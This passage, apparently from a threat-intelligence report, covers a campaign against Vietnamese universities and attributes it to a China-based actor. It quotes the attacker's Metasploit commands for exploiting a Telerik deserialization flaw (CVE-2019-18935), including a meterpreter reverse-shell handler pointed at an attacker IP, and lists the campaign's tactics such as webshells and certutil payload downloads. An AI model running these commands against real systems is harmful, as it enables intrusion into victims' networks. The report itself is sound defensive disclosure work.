 Additionally, we observed the threat actor exploit Insecure Deserialization in Telerik UI (CVE-2019-18935) in order to get a reverse-shell on multiple victims:

```
use exploit/windows/http/telerik_rau_deserialization
show options
set RHOSTS https://<REDACTED>.edu.vn
set lhost 103.215.77[.]214
run
set lport 8989
run
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 103.215.77[.]214
set lport 4444
run
```

# Attribution 

Based on the evidence recovered from the exposed open-directory and subsequent analysis of the tooling, infrastructure, and victimology, we believe that this campaign is linked to a China based threat actor.

* Victimology: The campaign is *highly targeted* against Vietnamese universities and educational institutions, with **at least** 25 unique organizations compromised. This aligns with long-standing Chinese strategic intelligence priorities in Southeast Asia, particularly around academia and technology research.

* Infrastructure and OPSEC failures: Cobalt Striked passed C2 via Cloudflare although VShell was direct to the C2 server. Open-directory leaks revealed the operators’ own IP addresses, all resolving to Chinese ISPs, including a test beacon registered from `27.150.114[.]115`.  

* Language and cultural indicators: The `.bash_history` log shows installation of the Simplified Chinese language pack, and configuration files such as `CatServer.Properties` contained Chinese comments and references (e.g., WeChat mini-program integration for 2FA notifications).

The tactics, techniques, and procedures (TTPs) we observed in this campaign show some similarities to those documented by Trend Micro in their [public reporting on Earth Lamia](https://www.trendmicro.com/en_us/research/25/e/earth-lamia.html). Specifically, both operations leveraged:

* Using `sqlmap` to identify novel SQL injection vulnerabilties
* Exploiting known CVEs in target web applications
* Using `certutil.exe` to download additional payloads
* Deployment of Cobalt Strike and VShell
* Deploying multiple Chinese webshells for persistence
* Leverage POC privilege escalations exploits like `GodPotato` or `JuicyPotato`
* Leveraging custom Chinese tooling `fscan` for network discovery
* Discovery of DCs using `nltest.exe` and `net.exe`
* Using open-source Chinese-proxy tooling from Github 
* Using scheduled tasks for backdoor persistence
* Exploiting novel SQL injection vulnerabilities in target web severs 

## Conclusion
